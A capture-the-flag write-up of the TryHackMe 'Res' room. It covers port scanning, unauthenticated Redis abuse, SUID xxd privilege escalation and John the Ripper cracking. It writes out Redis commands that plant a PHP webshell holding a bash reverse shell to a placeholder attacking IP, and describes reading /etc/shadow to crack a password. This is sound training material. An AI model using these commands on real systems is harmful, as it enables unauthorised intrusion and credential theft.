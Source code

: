 ```yaml
---
title: THM - Res
date: 2023-10-17
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

[Redis](https://backendless.com/redis-what-it-is-what-it-does-and-why-you-should-care/) is a type of database that stores data entirely in main memory (RAM) rather than on disk. 

Its main benefit is that it provides **faster access** compared to a traditional disk-storaged database, and its main drawback is that it's **sensitive to data loss** in the event of a shutdown or a crash, since it is stored in memory.

![redis-flow](redis-flow.png)

Other than the knowledge of what Redis is, we don't really need much else to work our way through this room. To be honest, even that knowledge isn't necessary, but I find it always better to learn as much as possible for the technologies I am working with. 

If someone has used Redis before, and knows how to interact with it through CLI it will be beneficial for sure, but we will learn the required commands through a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) article anyway, so let's crack on 🏃‍♀️!

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this does not seem like the right answer to the question.

The default command, that is without any port specification, scans the [**most common 1,000 ports for each protocol**](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).), so we can try scanning for all 65_535 ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **Redis server on port 6379** appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if authentication is needed for accessing the Redis instance. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis instance's info. 

So, let's try it:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. To begin with, we need to create a reverse shell, this time using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog. Note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!

    ```bash
    # define the path of Apache's default directory
    config set dir /var/www/html/
    # create a "subdirectory" to host our reverse shell 
    config set dbfilename webshell.php
    # our reverse shell code
    set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
    # save our configuration
    save
    ```

 2. We then have to set up a listener to our machine:
 
    ```bash
    nc -lnvp 12345
    ```

 3. Finally, by visiting the newly-created server's subdirectory on our browser, `http://\<target-ip\>/webshell.php`, we receive our reverse shell 🎊!
  
    ![rce_setup](rce_setup.png)
 
With our **initial foothold** established, let's search for `user.txt`:

![flag1](flag1.jpg)

First 🚩 captured!

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, and we saw it again while getting our first flag under `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's start by trying to read `root.txt` first. We need to make sure to either be within `xxd`'s directory, by typing `cd /usr/bin/`, or provide the full path, that is `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough, and we have now captured our second 🚩. Let's go for some hash cracking now and get `vianka`'s password 🔒!

### 3.4 Hash Cracking with John The Ripper

1. Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

    ![xxd_shadow](xxd_shadow.png)

2. We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

    ![passwd](passwd.png)

3. Now, all we have to do is to unshadow the files locally, and pass the unshadowed file to `john` so he can do its magic 🪄:

    ![john](john_vianka.jpg)

And that's us done 🍻!